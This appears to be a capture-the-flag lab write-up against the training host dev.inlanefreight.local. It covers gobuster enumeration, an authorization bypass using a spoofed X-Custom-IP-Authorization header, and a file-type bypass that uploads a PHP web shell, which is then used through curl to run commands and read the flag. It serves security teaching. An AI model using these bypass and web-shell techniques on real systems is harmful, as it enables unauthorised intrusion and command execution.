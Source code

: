 The tester looked for hidden directories in the http://dev.inlanefreight.local/ website:
```shell-session
# gobuster dir -u http://dev.inlanefreight.local/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://dev.inlanefreight.local/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 335] [--> http://dev.inlanefreight.local/images/]
/uploads              (Status: 301) [Size: 336] [--> http://dev.inlanefreight.local/uploads/]
/css                  (Status: 301) [Size: 332] [--> http://dev.inlanefreight.local/css/]
/js                   (Status: 301) [Size: 331] [--> http://dev.inlanefreight.local/js/]
Progress: 87664 / 87665 (100.00%)
===============================================================
Finished
===============================================================
```

As well as for hidden PHP files:
```shell-session
# gobuster dir -u http://dev.inlanefreight.local/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -x .php
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://dev.inlanefreight.local/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 2048]
/images               (Status: 301) [Size: 335] [--> http://dev.inlanefreight.local/images/]
/.php                 (Status: 403) [Size: 288]
/uploads              (Status: 301) [Size: 336] [--> http://dev.inlanefreight.local/uploads/]
/upload.php           (Status: 200) [Size: 14]
/css                  (Status: 301) [Size: 332] [--> http://dev.inlanefreight.local/css/]
/js                   (Status: 301) [Size: 331] [--> http://dev.inlanefreight.local/js/]
```

Trying to access the upload.php page we get a forbidden message:
![[Pasted image 20240720211946.png]]

Sending the request to repeater and using the options header we can see that we can use the GET,POST,PUT,TRACK,OPTIONS options:
![[Pasted image 20240720212829.png]]

Using the TRACK option we can see an interesting header, X-Custom-IP-Authorization: 172.18.0.1:
![[Pasted image 20240720212914.png]]

Trying to send a request with X-Custom-IP-Authorization: 127.0.0.1, and we got an interesting response:
![[Pasted image 20240720213034.png]]

If we right-click anywhere in the `Response` window in `Repeater` we can select `show response in browser`, copy the resultant URL and request it in the browser we are using with the Burp proxy. A photo editing platform loads for us:
![[Pasted image 20240720213206.png]]

Attempting to upload shell.php file, changing the file type in the request:
![[Pasted image 20240720214043.png]]

And we got successful:
![[Pasted image 20240720214102.png]]

We can interact with the web shell:
```shell-session
# curl http://dev.inlanefreight.local/uploads/shell.php?cmd=id    
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

```shell-session
# curl http://dev.inlanefreight.local/uploads/shell.php?cmd=cat%20/var/www/html/flag.txt
HTB{57c7f6d939eeda90aa1488b15617b9fa}
```
